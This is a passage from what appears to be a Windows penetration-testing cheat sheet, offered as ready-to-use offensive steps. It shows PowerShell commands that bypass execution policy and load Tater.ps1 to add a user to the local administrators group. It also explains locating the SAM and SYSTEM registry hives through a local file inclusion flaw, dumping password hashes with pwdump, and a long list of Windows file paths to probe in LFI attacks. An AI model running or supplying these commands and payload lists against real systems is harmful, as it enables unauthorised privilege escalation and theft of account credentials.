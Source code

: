 So all you do is download Tater.ps1 somewhere on the target then add administrator user or whatever.
```powershell
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators 740i /add"
net localgroup administrators
```



### System Files

If you find an LFI on windows you should check for these two files, the  `system`  registry and the  `SAM`  registry. These two files/registries are all we need to get the machines hashes. 
```cmd
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```
Then you can just run pwdump on these files.
```cmd
pwdump system sam
```

List of file inclusions for Windows
```cmd
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
```